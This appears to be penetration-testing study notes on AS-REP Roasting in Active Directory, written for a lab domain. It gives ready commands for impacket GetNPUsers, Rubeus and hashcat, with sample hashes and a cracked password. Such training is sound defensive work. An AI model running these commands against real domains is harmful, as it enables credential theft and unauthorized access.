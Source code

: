 # AS-REP Roasting

## Prerequesities

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

## ASREPRoasting from Linux

Get TGT from a specic AD account where preauth is disabled using a valid domain account :

```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

OR

GetNPUsers.py -dc-ip 192.168.200.70  -request -outputfile hashes.asreproast corp.com/pete
```

Crack TGT offline

```
hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
```

## ASREPRoasting from Windows

Get TGT (no need to specify user if we are authenticated using a domain account) :

```
.\Rubeus.exe asreproast /nowrap

[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

Crack it offline :&#x20;

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## _Targeted AS-REP Roasting_

Let's assume that we are conducting an assessment in which we cannot identify any AD users with the account option _Do not require Kerberos preauthentication_ enabled. While enumerating, we notice that we have _GenericWrite_ or _GenericAll_ permissions[5](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/as-rep-roasting-46107#fn-local\_id\_36-5) on another AD user account. Using these permissions, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication.

Notably, we should reset the User Account Control value of the user once we've obtained the hash.
